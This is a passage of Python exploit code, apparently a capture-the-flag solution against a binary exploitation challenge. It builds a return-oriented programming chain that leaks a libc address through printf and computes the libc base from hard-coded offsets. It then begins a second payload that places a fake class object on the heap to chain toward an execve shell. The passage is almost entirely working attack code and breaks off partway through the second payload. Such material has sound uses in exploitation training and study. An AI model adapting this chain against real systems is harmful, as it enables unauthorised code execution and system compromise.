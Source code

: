 ```py
payload += append_nulls(pck(0x400d43))
payload += append_nulls(pck(HEAP_ADDR+0x90)) # string address, to go in %rdi
#
# `0x0000000000400d41 : pop rsi ; pop r15 ; ret`
payload += append_nulls(pck(0x400d41))
payload += append_nulls(pck(0x601290)) # I want to print the contents of this address in the GOT
payload += append_nulls(pck(0x0)) # This will go into r15
#
# I'm running into an alignment issue: I need to get %rsp to be a multiple of 16
# when calling printf. So I return and do nothing once.
payload += append_nulls(pck(0x4009a1))
#
# Jump to printf call
payload += append_nulls(pck(0x400c39))
#
# Terminate the read
payload += "\n"
p.send(payload)
#
####

time.sleep(2)
tmp = p.recv(timeout=0.5)
LIBC_ADDR = int(unpck(append_nulls(tmp))[0])
print("libc_addr = " + hex(LIBC_ADDR))

if local:
	PRINTF_OFFSET = 0x0 # :-)
	#ONE_GADGET_OFFSET = 0x0
	#ONE_GADGET_OFFSET_2 = 0x0
	POP_RDI_OFFSET = 0x0
	POP_RDX_OFFSET = 0x0
	POP_RSI_OFFSET = 0x0
	CALL_EXECVE_OFFSET = 0x0
else:
	PRINTF_OFFSET = 0x50cf0
	#ONE_GADGET_OFFSET = 0xd6e77
	#ONE_GADGET_OFFSET_2 = 0xd6e83
	POP_RDI_OFFSET = 0x22482 # pop rdi ; ret
	POP_RDX_OFFSET = 0x1b8e # pop rdx; ret
	POP_RSI_OFFSET = 0x24125 # pop rsi; ret
	CALL_EXECVE_OFFSET = 0xd6e8d # call execve

LIBC_BASE = LIBC_ADDR - PRINTF_OFFSET
print("LIBC_BASE: " + hex(LIBC_BASE))

# Sleeping here is necessary, in order for the program on the server
# to associate the new information I'm sending with the second read and not the first.
time.sleep(2)

#### Second payload to ROP a shell.
#
## Data that gets copied to the heap.
payload2 = append_nulls(pck(HEAP_ADDR+0x40)) # point to fake turtle class
payload2 += append_nulls(pck(0x400d3c)) # ROP
payload2 += append_nulls(pck(0x0))*4
payload2 += append_nulls(pck(0x400d3e)) # ROP
payload2 += append_nulls(pck(0x0))
payload2 += append_nulls(pck(0x601400)) # optional metaclass pointer
payload2 += append_nulls(pck(0x0))
payload2 += append_nulls(pck(0x400d3c)) # ROP
payload2 += append_nulls(pck(0x21))
payload2 += append_nulls(pck(0x0)) # fwd1
```
